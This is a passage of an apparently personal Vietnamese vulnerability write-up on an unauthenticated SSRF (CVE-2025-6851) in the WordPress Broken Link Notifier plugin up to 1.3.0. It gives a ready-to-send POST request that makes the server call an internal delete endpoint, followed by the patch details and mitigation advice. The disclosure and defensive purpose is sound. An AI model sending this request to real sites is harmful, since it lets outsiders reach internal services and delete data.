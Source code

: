 ### Proof of Concept (PoC)
1. Truy cập trang chủ và lấy `nonce`

2. Gửi POST request đến endpoint

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...

action=blnotifier_blinks&nonce=87f4d1ef16&source_url=http://localhost:8001/&header_links[0]=http://127.0.0.1:8001/delete?id=1
```

**Result**:

![Result](result.png "Gửi thành công request tới local service")

## Conclusion

Phiên bản **≤1.3.0** của Broken Link Notifier có lỗ hổng **SSRF**: endpoint cho phép anonymous truyền URL, dẫn đến `wp_remote_get()` gọi tới dịch vụ nội bộ. Bản **1.3.1** đã thêm kiểm tra DNS/IP và giới hạn quyền, ngăn chặn SSRF trước khi thực hiện request.

## Key takeaways

* **Nâng cấp ngay** lên **≥1.3.1**.
* **Không tin URL từ client** — validate/allowlist trước khi fetch.
* **Chặn IP nội bộ** (resolve DNS, block private/reserved).
* **Giới hạn quyền** endpoint (không cho anonymous).
* **Trả status thay vì body thô** khi không cần nội dung.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress Broken Link Notifier Plugin <= 1.3.0 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/broken-link-notifier/vulnerability/wordpress-broken-link-notifier-plugin-1-3-0-unauthenticated-server-side-request-forgery-vulnerability) 

---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-10-28-cve-2025-6851/  

